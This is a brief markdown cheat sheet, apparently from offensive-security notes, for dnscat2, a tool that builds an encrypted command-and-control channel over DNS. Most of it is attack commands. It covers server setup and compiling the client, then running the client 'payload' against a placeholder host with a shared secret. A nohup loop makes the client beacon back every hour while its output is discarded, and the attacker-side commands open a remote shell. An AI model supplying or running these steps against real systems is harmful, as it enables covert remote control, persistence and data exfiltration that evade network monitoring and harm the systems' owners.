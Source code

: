 # dnscat2
```
This tool is designed to create an encrypted Commands and Control (C2) channel over the DNS protocol
```
* [dnscat2 github](https://github.com/iagox86/dnscat2)

## Setting up Server
```
sudo su -
apt-get update
apt-get install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
apt-get install gcc make
gem install bundler
bundle install
```

```
ruby ./dnscat2.rb
```
Encrypted with secret
```
ruby ./dnscat2.rb --secret fdgerhfdgtjydfy567d6d56e
```
```
Note: udp port at server side must allowed
```
## Compiling Client
```
git clone https://github.com/iagox86/dnscat2.git /opt/dnscat2/client
cd /opt/dnscat2/client
make
```
Executing payload

```
./dnscat serveraddress.com --secret fdgerhfdgtjydfy567d6d56e
```
Executing timely (An Hour)
```
nohup /bin/bash -c "while true; do ./dnscat serveraddress.com --secret fdgerhfdgtjydfy567d6d56e --max-retransmits 5; sleep 3600; done" > /dev/null 2>&1 &
```

## Attacker Server side command
Show windows
```
>> window 
```
Interact with first command session
```
>> window -i 1
```
Start shell
```
>> shell
```
Back out main session
```
Ctrl-z
```
